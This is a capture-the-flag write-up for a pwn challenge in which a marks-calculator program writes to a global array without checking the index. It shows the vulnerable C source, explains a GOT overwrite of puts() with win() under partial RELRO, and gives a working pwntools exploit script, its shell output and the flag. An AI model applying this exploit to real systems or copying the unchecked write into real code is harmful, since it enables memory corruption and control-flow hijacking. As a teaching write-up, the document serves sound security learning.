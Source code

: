 # [PWN] arrays

## Vulnerability

- No bound checking on array index

## Source

```c
int main(void) {
  init();
  char choice;
  puts("WELCOME TO DJS MARKSHEET CALCULATOR.");
  puts("ENTER YOUR MARKS AND I SHALL TELL YOU YOUR PERCENTAGE.");
  for (int i = 0; i < N; i++) {
    printf("Marks in Subject_%d: ", i + 1);
    scanf("%ld", &MARKS[i]);
  }
  puts("Please check the given data:");
  print_marks();
  printf("Do you want to modify any field [y/n] ");
  while (choice != 'y' && choice != 'n') {
    choice = getchar();
  }
  if (choice == 'y') {
    int index;
    uint64_t marks;
    printf("Which subject to edit (1-5) : ");
    scanf("%d", &index);
    index -= 1; // Zero index it
    printf("Marks : ");
    scanf("%ld", &marks);
    MARKS[index] = marks;
    puts("Ok modified. Check it now");
  }
  print_marks();
  double sum = 0;
  for (int i = 0; i < N; i++) {
    sum += MARKS[i];
  }
  printf("Your percentage would be : %.02f\n", sum / N);
  return EXIT_SUCCESS;
}

```

## Exploit

Since there is no bound checking on `index` we can use this to pivot around the memory and write arbitrary data to any desired location.



This binary is compiled with `partial relro` which means the GOT (Global Offset Table) table is in a writable section of memory. If you know how the ELF structure is, you know that the GOT table is very close to global variables we declare. Since `MARKS` is a global variable, it is situated very close to the GOT.

```c
    MARKS[index] = marks;
    puts("Ok modified. Check it now");
```

The function called just after assigning the value, is `puts()`. So if we overwrite the GOT entry of `puts()` with memory address of `win()`. Then the control flow would be redirected there and we would get a shell.

```python
from pwn import *

exe = ELF("./arrays")

context.terminal = ['tmux', 'splitw', '-h']
context.binary = exe

gs = '''
b * main+361
c
'''

# io = process(exe.path)
io = remote('localhost', 50001)
# gdb.attach(io, gdbscript=gs)
for _ in range(5):
    io.sendline(b'0')

io.sendline(b'y')
io.sendline(b'-19')
io.sendline(str(exe.sym.win).encode())
io.clean()

io.interactive()

```

```shell
➜  solution python solve.py
[*] Switching to interactive mode
$ ls
arrays  flag.txt
$ cat flag.txt
DJSISACA{n3X7_71m3_1_W1ll_1ncLUD3_80Und_cH3Ck1N9}
```

## Flag

`DJSISACA{n3X7_71m3_1_W1ll_1ncLUD3_80Und_cH3Ck1N9}`
